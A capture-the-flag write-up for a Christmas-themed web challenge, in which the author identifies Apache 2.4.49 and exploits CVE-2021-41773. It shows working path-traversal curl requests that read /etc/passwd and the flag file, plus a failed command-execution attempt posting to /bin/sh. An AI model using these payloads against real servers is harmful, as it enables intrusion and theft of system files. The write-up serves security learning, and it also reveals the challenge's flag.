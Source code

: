 # Challenge

Santa's starting to get more serious into coding. He is now really invested in learning graphics and game programming. After he found that awesome graphics library, he has been quite a productive coder! Check out all his nice computer generated imagery here:

http://santascodingworkshop.norwayeast.azurecontainer.io/

> **Hint:** Now where can the vulnerability be hiding? Is it in one of the games or graphics demos? And wasn't this a pwn chall? Where is my bin?

# Writeup

Doing dirbuster + manual looking. Not seeing a whole lot. Did whatweb to see details of the webserver:

```bash
$ whatweb -a 3 santascodingworkshop.norwayeast.azurecontainer.io

http://santascodingworkshop.norwayeast.azurecontainer.io [200 OK] Apache[2.4.49], Country[UNITED STATES][US], HTTPServer[Unix][Apache/2.4.49 (Unix)], IP[20.100.137.205], Script
```

Apache 2.4.49. I know that latest is 2.4.54 so I search google for vulnerability for 2.4.49 and there is RCE and Path Traversal ([CVE-2021-41773](CVE-2021-41773)). 

[This blog post](https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013) shows me simple ways to use this. So I test teh first one to get /etc/passwd.

```bash
$ curl http://santascodingworkshop.norwayeast.azurecontainer.io/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd

root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
*snip*
```

So there we go. Now I just guess flag.txt is in root folder so. Based on previous attempts

```bash
$ curl http://santascodingworkshop.norwayeast.azurecontainer.io/cgi-bin/.%2e/.%2e/.%2e/.%2e/flag.txt

${74I5_I5_W4Y_W3_C@N7_4@V3_NIC3_74IN65:@:@:@:@}
```

Bingo! :) 

# Can we do RCE?

```
curl -X POST http://santascodingworkshop.norwayeast.azurecontainer.io/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh \
    -H "Content-Type: application/x-www-form-urlencoded" \
    -d "echo;id"

Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
```

Seems like this is not the case, according to the vulnerability there must be a module loaded for RCE and if it was it would return the id instead for the binary.

Well I got the flag!